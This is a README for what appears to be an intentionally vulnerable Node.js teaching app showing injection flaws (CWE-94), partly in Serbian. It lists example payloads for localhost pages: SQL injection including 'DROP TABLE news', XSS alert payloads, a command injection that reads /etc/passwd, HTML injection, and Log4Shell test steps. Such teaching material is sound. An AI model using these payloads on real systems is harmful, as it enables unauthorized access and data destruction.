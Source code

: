 # CWE-94-examples

This repository contains examples of code that violates CWE-94: Improper Control of Generation of Code ('Code Injection')

## Running the examples

```npm install```

```node app.js```

If you want to use nodemon:

```npm install -g nodemon```

```nodemon app.js```

Landing page:

```http://localhost:3000/```

## Examples

### Example 1

Page: /login

username:  `nesto' OR 1=1; --`
password: any

### Example 2

Page: /news

Search: `%'; --`

### Example 3

Page: /news
Add News data: `',''); DROP TABLE news --`

### Example 4

Page: /news
Add News data: `tajna tabela: ' || (SELECT tbl_name FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'),'user') --`

### Example 5

Page: /news
Clicking on link: `http://localhost:3000/news?search=%3Cimg%20src=x%20onerror=%22alert(5)%22/%3E`

### Example 6
Page: /news
Create new news with title: ` <img src=x onerror="alert(6)"/>`

### Example 7

Page: /news_alert
Clicking on link: `http://localhost:3000/news_alert?search=0%22);%20alert(7%2B%20%22`

### Example 8

Page: /list
Enter as folder to list: `/usr; cat /etc/passwd`

### Example 9 - html injection

Page: /news
Insert news with title: <a href="https://www.example.com" style="color: inherit; text-decoration: none;">Naslov</a>

### Example 10 - Log4j

1. instalirati go
2. skinuti biblioteku za server koji simulira ldap server:`go install github.com/alexbakker/log4shell-tools/cmd/log4shell-tools-server`
3. Na web stranici koju pokrene server pokrenuti test
4. Pokrenuti java projekat logrinjection sa argumentom koji je prikazan na serveru
